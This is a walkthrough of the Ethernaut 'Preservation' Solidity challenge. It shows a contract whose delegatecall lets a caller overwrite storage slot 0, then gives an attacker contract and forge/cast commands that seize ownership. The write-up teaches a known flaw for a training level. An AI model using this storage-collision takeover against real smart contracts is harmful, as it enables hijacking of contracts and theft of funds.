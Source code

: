 ## Preservation Level Outline

**Difficulty : 8/10**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

## Solution

When a contract makes a function call using delegatecall it loads the function code from another contract and executes it as if it were its own code. 

This means that when we make a delegatecall to `timeZone1Library`, we are modifying storage slot 0 in Preservation. If we change this to point to a malicious contract, we can then create a spoof function for "setTime(uint256)" and change the owner.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    uint256 storageSlot0;
    uint256 storageSlot1;
    uint256 attack_this_slot;

    function setTime(uint256 newOwner) public {
        attack_this_slot = newOwner;
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --private-key  $PRIVATE_KEY
```

##### 3. Changing storage slot 0 to point to our malicious contract
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $DEPLOYED_ADDRESS --private-key $PRIVATE_KEY
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Calling our exploited contract through the delegatecall and passing our address as the owner
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $NEW_OWNER --gas 60000 --private-key $PRIVATE_KEY
```
> Replace $NEW_OWNER with your EOA address 


---

##### [:arrow_left: Back To Main Menu](../README.md)
